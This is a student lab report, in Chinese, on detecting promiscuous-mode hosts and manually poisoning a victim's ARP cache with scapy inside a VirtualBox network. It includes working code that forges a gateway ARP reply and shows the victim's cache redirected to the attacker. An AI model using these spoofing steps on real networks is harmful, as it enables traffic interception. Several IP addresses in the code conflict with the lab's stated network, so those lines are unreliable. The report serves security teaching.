

# 第四章 网络监听

## 实验目的

1. 检测局域网中的异常终端

2. 手工单步“毒化”目标主机的ARP缓存

## 实验工具

+ VirtualBox
+ 网关：Gateway-Debian（Debian Buster）
+ 攻击者主机：Attacker-Kali（Kali-rolling 2022.3）
+ 靶机：Victim-Kali（Kali-rolling 2022.3）
+ wireshark
+ tcpdump

## 实验准备环节

### 一、实验网络环境

本次实验环境通过内部网络，将攻击者主机和靶机以及网关连接到同一局域网，它们的IP地址与MAC地址如下表所示：

| 虚拟机名称及身份 | 网卡/网络连接方式 | IP地址 | MAC地址 |
| ---- | ---- | ---- | ---- |
|Gateway-Debian（网关）|enp0s9/intnet1|172.16.111.1|08:00:27:9a:da:1b|
|Attacker-Kali（攻击者）|eth2/intnet1|172.16.111.129|08:00:27:76:04:8e|
|Victim-Kali（靶机）|eth0/intnet1|172.16.111.110|08:00:27:4a:13:b3|

### 二、安装scapy

这一步先检查攻击者主机kali是否已安装了scapy。直接在kali命令行`sudo scapy`发现出现了scapy界面，故不再重复安装。

若不是自带scapy，则通过python3来安装scapy。

```bash
# 先安装python3
sudo apt update && sudo apt install python3 python3-pip

# 通过pip3安装scapy
pip3 install scapy[complete]
```

## 实验过程

### 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show enp0
# 2: enp0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:4a:13:b3 brd ff:ff:ff:ff:ff:ff
```


```bash
# 在攻击者主机上开启 scapy
scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.110")
```


**可以看到攻击者发送的试探靶机混杂模式的数据包是没有收到回复。同时在靶机上运行的wireshark也没有收到任何流量，说明当靶机的混杂模式没有打开时，是不会接收来自网络中的目的地址为其他主机的数据。**

```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show enp0
# 2: enp0s3: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff
```


```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.110")
```


**而当目标主机打开混杂模式，它就会接收来自所有接口的数据并回复。这一点在攻击者主机和目标主机的wireshark上都有所体现。可以发现的是，攻击者主机是通过ARP请求来判断目标主机是否工作在混杂模式的**

```bash
# 最后，在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0 promisc off
```

### 实验二：手工单步“毒化”目标主机的 ARP 缓存

**注：以下代码在攻击者主机上的 scapy 交互式终端完成**

```bash

# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:76:04:8e
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:76:04:8e
#      psrc= 172.16.111.129
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2, iface="eth2")

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 192.168.0.102
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="171.16.111.110", hwdst="08:00:27:76:04:8e")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

攻击者发送的数据包都可以通过tcpdump选择特定的接口来观察到。这里我使用的命令是`tcpdump -i eth2`


同时，目标主机的wireshark上也捕捉到来自攻击者主机的数据


此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
# 172.16.111.129 dev enp0 lladdr 08:00:27:76:04:8e STALE
# 172.16.111.1 dev enp0 lladdr 08:00:27:76:04:8e REACHABLE
```


回到攻击者主机上的 scapy 交互式终端继续执行命令。

```bash
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:9a:da:1b", pdst="172.16.111.110", hwdst="08:00:27:4a:13:b3")
sendp(restorepkt1, count=100, inter=0.2)
## （可选）伪装受害者给网关发送 ARP 响应
restorepkt2 = ARP(op=2, pdst="192.168.0.1", hwdst="08:00:27:9a:da:1b", psrc="172.16.111.110", hwsrc="08:00:27:4a:13:b3")
sendp(restorepkt2, count=100, inter=0.2)
```

此时在受害者主机上准备“刷新”网关 ARP 记录。
```bash
## 在受害者主机上尝试 ping 网关
ping 192.168.0.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```



##### 由于直接使用kali自带的scapy，没有尝试安装python3-pip，因此补充FAQ环节就没有尝试

## 实验中遇到的问题

1. 在实验二中，攻击者主机需要发送一个ARP广播请求来获取网关的MAC地址。在这一环节，由于我的攻击者主机配置的是多网卡，因此一直无法将数据包发送出去。后来，通过在畅课讨论区的学习，知道了可以通过去掉多余的网卡，营造单网卡环境来解决。另外，也可以在发送广播包时添加一个属性`iface="eth2"`，来使数据包是通过对应的网卡发送出去的。我选择的是第二种方案。

2. 在我尝试通过ssh远程登录攻击者主机来进行此次实验时，我发现通过scapy构造的ARP数据包无法发送，也无法接受。这让我一度怀疑，当攻击者主机通过ssh远程登录时，它与目标主机就不是处于同一局域网中。不过后来，老师打破了我这种错误的认知。不管是在哪里登录，只要将攻击者主机与目标主机连接在同一局域网的网卡没有关闭，它们就始终处于同一局域网内。这是我学到最重要的一点。而回到这个问题，我发现只是因为命令写错了，改了就好了。

### 参考链接

[网络安全课本第四章实验](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

[混杂模式](https://baike.baidu.com/item/%E6%B7%B7%E6%9D%82%E6%A8%A1%E5%BC%8F/6463778)
